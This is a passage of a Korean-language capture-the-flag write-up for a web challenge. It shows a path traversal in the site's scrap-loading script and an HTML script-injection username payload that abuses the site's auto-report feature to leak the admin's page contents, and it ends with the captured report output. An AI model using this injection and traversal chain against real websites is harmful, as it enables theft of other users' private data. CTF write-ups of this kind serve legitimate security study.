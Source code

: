 그리하여 Cookie가 아닌 페이지의 내용을 추출할 것인데, 게시물 보는 페이지에서 취약점이 발생한다.

```javascript
// load-scrap.js
const urls = location.href.split('/')
const user = urls[urls.length - 2]
const title = urls[urls.length - 1]

// show title
const scrapTitle = $('<h1 class="scrap-title">')
scrapTitle.text(title)
$('.scrap-header').append(scrapTitle)

// show body
$.get(`/static/raw/${user}/${title}`)
  .then(c => {
    const scrapBody = $('<pre class="scrap-body">')
    scrapBody.text(c)
    $('.scrap-wrapper').append(scrapBody)
  })
```

위의 자바스크립트 파일을 보면 url에 대하여 검증을 하지않으므로, user와 title의 변수가 ..이 들어가게 되면 $.get함수를 통해 긁어오는 파일이 / (메인 페이지)가 된다.

메인 페이지에는 우리가 작성한 글과 글에대한 주소가 적혀 있으므로, report할 때 해당 내용에 body부분에 적혀서 전송이 된다.

user와 title을 .. 으로 만드는 방법은 간단하게 url뒤에 `?/../..` 또는 `#/../..` 을 붙이면 된다.



최종 공격 시나리오는 다음과 같다.

1. shpik (결과를 받을 id)를 생성하여 uid(e.g. SHSHSHSHSH) 획득

2. 다음의 스크립트로 아이디를 생성

   ```html
   <script src=/static/javascripts/load-scrap.js></script><script src=/static/javascripts/report-scrap.js></script><form name=admin id=SHSHSHSHSH class=scrap-body>give me flag</form><script src=/static/javascripts/periodically-watch-scrap-body-and-report-scrap-automatically-with-banword.js></script><!--
   ```

3. 2번에서 가입한 아이디로 임의의 글을 작성

4. 작성한 글의 url뒤에 `?/../..` 을 삽입하여 report!

5. Profit!



위의 시나리오대로 우리가 report를 수행하면 서버에서 auto report가 작동하여 shpik이라는 계정으로 report된 것을 확인할 수 있다.

```json
{"reports":[{"url":"http://v10.scsq.task.ctf.codeblue.jp:3000/scraps/z3uoyyvo/1?/../..","title":"","body":"give me flag<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><title></title><link rel=\"stylesheet\" href=\"https://stackpath.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css\" integrity=\"sha384-WskhaSGFgHYWDcbwN70/dfYBj47jz9qbsMId/iRN3ewGhXQFZCSftd1LZCfmhktB\" crossorigin=\"anonymous\"><link rel=\"stylesheet\" href=\"/static/app.css\"><script src=\"https://code.jquery.com/jquery-3.3.1.min.js\" integrity=\"sha256-FgpCb/KJQlLNfOu91ta32o/NMZxltwRo8QtmkMRdAu8=\" crossorigin=\"anonymous\"></script><script src=\"https://stackpath.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js\" integrity=\"sha384-smHYKdLADwkXOn1EmN1qk/HfnUcbVRZyYmZ4qpPea6sjB/pTJ0euyQp0Mk8ck+5T\" crossorigin=\"anonymous\"></script></head><body><header><nav class=\"navbar navbar-dark bg-dark navbar-expand-lg\"><ul class=\"navbar-nav mr-auto\"><li class=\"nav-item\"><a class=\"nav-link\" href=\"/\">Top</a></li><li class=\"nav-item\"><a class=\"nav-link\" href=\"/new\">New Scrap</a></li><li class=\"nav-item\"><a class=\"nav-link\" href=\"/logout\">Logout</a></li></ul></nav></header><main class=\"py-5 bg-light\" role=\"main\"><div class=\"container\"><div class=\"row\"><div class=\"col-md-4\"><a class=\"scraps-item\" href=\"scraps/admin/91510540-f090-4399-bad5-351e719686b5\">91510540-f090-4399-bad5-351e719686b5</a></div></div></div></main></body></html>"}]}
```
